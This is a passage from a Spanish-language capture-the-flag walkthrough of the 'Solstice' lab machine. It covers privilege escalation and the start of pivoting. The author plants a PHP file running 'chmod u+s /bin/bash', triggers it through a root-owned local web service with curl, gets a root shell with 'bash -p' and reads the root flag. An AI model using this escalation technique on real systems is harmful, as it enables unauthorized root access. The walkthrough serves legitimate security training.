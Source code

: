 ## Escalada de privilegios

Como corre en el puerto `57` vamos a hacer una peticion para que se ejecute el comando en el puerto que `57`

```bash
www-data@solstice:/var/tmp/sv$ curl http://127.0.0.1:57
root
www-data@solstice:/var/tmp/sv$ 
```

Vamos a hacer `SUID` la `bash`

```bash
www-data@solstice:/var/tmp/sv$ cat index.php 
<?php
	system('chmod u+s /bin/bash');
?>
www-data@solstice:/var/tmp/sv$ 
```

Ahora es `SUID`

```bash
www-data@solstice:/var/tmp/sv$ curl http://127.0.0.1:57
www-data@solstice:/var/tmp/sv$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
www-data@solstice:/var/tmp/sv$ 

```

```bash
www-data@solstice:/var/tmp/sv$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt 

No ascii art for you >:(

Thanks for playing! - Felipe Winsnes (@whitecr0wz)

f950998f0d484a2ef1ea83ed4f42bbca

bash-5.0# 
```

Comprometimos la maquina `Solstice`

## Pivoting Joestar

Vamos a irnos a `dev/shm` y vemos otra interfaz que es la `10.10.0.128`

```bash
bash-5.0# hostname -I
10.10.0.128 192.168.1.153 2806:102e:10:34d9:20c:29ff:fee1:3e1e 
```
